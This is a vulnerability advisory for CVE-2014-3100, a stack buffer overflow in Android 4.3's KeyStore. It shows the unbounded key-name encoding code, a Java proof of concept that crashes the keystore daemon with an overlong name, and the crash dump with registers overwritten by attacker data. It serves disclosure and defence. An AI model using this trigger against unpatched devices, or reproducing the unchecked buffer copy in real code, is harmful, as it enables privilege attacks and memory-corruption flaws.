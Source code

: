 ```yaml
---
layout: vuln
credit: 
    - roeeh
timeline:
    - type: 'add'
      date: '2017-03-01'
    - type: 'release'
      date: '2014-06-30' 
alephid: ALEPH-2014004
cve: CVE-2014-3100
date: '2014-06-30'
title: 'Android KeyStore Stack Buffer Overflow'
severity: high
product:
    - Android
    
vulnerable:
    - 4.3
mitigation: 'Apply patches'

references:
    - src: Advisory
      url: https://www.slideshare.net/ibmsecurity/android-keystorestackbufferoverflow
    - src: USENIX WOOT '14
      url: https://www.usenix.org/system/files/conference/woot14/woot14-kaplan.pdf
---
```

A stack buffer is created by the KeyStore::getKeyForName method.
```c
ResponseCode getKeyForName (Blob *keyBlob , const android :: String8 & keyName , const uid_t uid , const BlobType type )
{
    char filename [NAME_MAX];
    encode_key_for_uid (filename, uid, keyName);
    [...]
}
```

This function has several callers which are accessible by external applications using the Binder interface
(e.g. int32_t android::KeyStoreProxy::get(const String16 &name, uint8_t \*\*item, size_t \*itemLength)). Therefore the keyName variable can be controllable with an arbitrary size by a malicious application. As it can be seen, the encode_key routine which is called by encode_key_for_uid can overflow the filename buffer since bounds checking is absent:
```c
static int encode_key_for_uid (char *out, uid_t uid, 
                              const android::String8 &keyName)
{
    int n = snprintf(out, NAME_MAX , "%u_", uid);
    out += n;
    return n + encode_key (out, keyName);
}

static int encode_key (char *out, const android::String8 &keyName)
{
    const uint8_t *in = reinterpret_cast < const uint8_t *>( keyName . string ());
    size_t length = keyName . length ();
    for (int i = length ; i > 0; --i, ++in, ++out) {
        if (*in < ’0’ || *in > ’~’) {
            *out = ’+’ + (*in >> 6);
            *++out = ’0’ + (*in & 0x3F);
            ++length;
        }   else {
                *out = *in;
            }
    }
    *out = ’\0’;
    return length ;
}
```
## Proof-of-Concept ##

Should be executed by an Android app:

```java
Class keystore = Class.forName("android.security.KeyStore");
Method mGetInstance = keystore.getMethod("getInstance");
Method mGet = keystore.getMethod("get", String.class);
Object instance = mGetInstance.invoke(null);
mGet.invoke (instance,
             "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"+
             "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"+
             "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"+
             "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"+
             "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"+
             "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"+
              "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa");
```

## Crash dump ##
```terminal
F/ libc ( 2091): Fatal signal 11 ( SIGSEGV ) at 0 x61616155 ( code =1) , thread 2091 ( keystore )
I/ DEBUG ( 949): *** *** *** *** *** *** *** *** *** *** *** *** *** *** *** ***
I/ DEBUG ( 949): Build fingerprint : ’ generic_x86 / sdk_x86 / generic_x86 :4.3/ JSS15
J/ eng . android - build .20130801.155736: eng / test - keys ’
I/ DEBUG ( 949): Revision : ’0’
I/ DEBUG ( 949): pid : 2091 , tid : 2091 , name : keystore >>> / system / bin / keystore <<<
I/ DEBUG ( 949): signal 11 ( SIGSEGV ), code 1 ( SEGV_MAPERR ) , fault addr 61616155
I/ DEBUG ( 949): eax 61616161 ebx b7779e94 ecx bff85ed0 edx b777a030
I/ DEBUG ( 949): esi b82a78a0 edi 000003 e8
I/ DEBUG ( 949): xcs 00000073 xds 0000007 b xes 0000007 b xfs 00000000 xss 0000007 b
I/ DEBUG ( 949): eip b7774937 ebp 61616161 esp bff85d20 flags 00010202
I/ DEBUG ( 949):
I/ DEBUG ( 949): backtrace :
I/ DEBUG ( 949): #00 pc 0000 c937 / system / bin / keystore ( KeyStore :: getKeyForName ( Blob * ,android :: String8 const & , unsigned int , BlobType )+695)
I/ DEBUG ( 949):
I/ DEBUG ( 949): stack :
I/ DEBUG ( 949): bff85ce0 00000000
[...]
I/ DEBUG ( 949): bff85d48 00000007
I/ DEBUG ( 949): bff85d4c bff85ed0 [ stack ]
I/ DEBUG ( 949): bff85d50 bff8e1bc [ stack ]
I/ DEBUG ( 949): bff85d54 b77765a3 / system / bin / keystore
I/ DEBUG ( 949): bff85d58 b7776419 / system / bin / keystore
I/ DEBUG ( 949): bff85d5c bff85ed4 [ stack ]
I/ DEBUG ( 949): ........ ........
I/ DEBUG ( 949):
I/ DEBUG ( 949): memory map around fault addr 61616155:
I/ DEBUG ( 949): ( no map below )
I/ DEBUG ( 949): ( no map for address )
I/ DEBUG ( 949): b72ba000 - b73b8000 r -- / dev / binder
```
